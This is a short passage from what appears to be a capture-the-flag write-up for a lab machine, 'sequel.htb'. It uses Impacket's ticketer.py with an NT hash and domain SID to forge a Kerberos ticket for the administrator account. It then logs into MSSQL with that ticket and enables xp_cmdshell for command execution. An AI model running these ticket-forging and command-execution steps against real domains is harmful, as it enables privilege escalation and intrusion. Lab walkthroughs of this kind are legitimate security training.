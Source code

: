 ![](attachment/25e53c14e2427921ac0f705611169fdc.png)
S-1-5-21-4078382237-1492182817-2568127209

Now running ticketer to get the ticket:
`ticketer.py -nthash 1443ec19da4dac4ffc953bca1b57b4cf -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb administrator`

or
`ticketer.py -nthash 1443ec19da4dac4ffc953bca1b57b4cf -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -spn TotesLegit/dc.sequel.htb administrator`

Now we have the ccache. Using it to access mssql:
`KRB5CCNAME=administrator.ccache mssqlclient.py -k administrator@dc.sequel.htb`
![](attachment/9713af926f249956124f645fd3d1a7d7.png)
**Note** : Don't forget to set the time with ntpdate
Now we can rn `enable_xp_cmdshell`
